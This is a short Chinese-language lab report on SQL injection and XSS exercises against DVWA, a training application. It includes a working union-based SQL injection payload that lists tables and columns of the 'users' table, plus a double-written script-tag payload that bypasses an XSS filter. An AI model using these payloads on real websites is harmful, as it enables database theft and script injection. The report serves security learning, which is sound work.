

# SQL注入与XSS注入

Owner: xqer

# sql注入

正常查询

输入1' 报错

输入'' 不报错，说明后端是把id作为了字符串

那么就在先让字符串闭合，然后union 想要的查询语句，再闭合后面的引号或者直接注释掉后面的引号

得到库名dvwa

爆破库名，找到对应的表

利用select 1，group_concat(table_name) from information_schema.tables语句

爆破列名

1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='dvwa'#

# XSS注入

## low

存储型xss，每次刷新网页都会显示

## medium

此时对message的内容进行了删除

双写也无法绕过<scrip<script>t>alert(1)</scrip<script>t>

发现name框的长度可以自行修改为100

此时在name框中双写即可绕过

<scrip<script>t>alert(1)</scrip<script>t>

# 实验总结：

sql注入和xss注入都需要攻击者不断探索系统的防护措施，过滤方式，并不断地尝试突破。这个过程中用到了很多有趣的绕过方式，使我对安全攻防的兴趣进一步加深。当然，系统防护级别更高时，需要的技能也要更强大，我会进一步探索其中的技术，提高自己的水平。